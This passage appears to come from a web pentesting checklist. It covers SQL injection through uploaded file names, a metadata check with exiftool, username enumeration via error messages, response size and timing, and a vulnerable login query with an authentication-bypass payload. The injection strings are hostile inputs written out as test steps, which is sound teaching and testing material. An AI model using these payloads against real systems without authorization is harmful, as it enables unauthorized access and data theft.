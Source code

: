 ## SQL Injection
Upload a file containing SQLi payloads within its name
```
image.jpeg' or '1'='1
```


## GDPR/Privacy Issues

Check if the metadata is stripped from the file:
```
exiftool image.jpeg
```

# Login/Register Page
## Username Enumeration

1. Through error messages

Invalid Username & Invalid Password:
```
Username was not found
```

Valid Username & Invalid Password:

```
Incorrect password
```


2. Through response size discrepancy:

Invalid Username & Invalid Password: ```Response size: 20KB ``` (example)


Valid Username & Invalid Password (the same password as above): ```Response size: 150KB``` (example)



3.  Through response time discrepancy:

Invalid Username & Invalid Password: ```Response time: 5,000 ms``` (example)


Valid Username & Invalid Password (the same password as above): ```Response time: 100 ms``` (example) 

## SQL Injection

```
SELECT * FROM USERS WHERE username = '<user input>' and password = '<password input>';
```
That is one of the classics and very vulnerable queries for a login page

Insert the following username to bypass authentication: ```admin' or '1'='1'-- -```

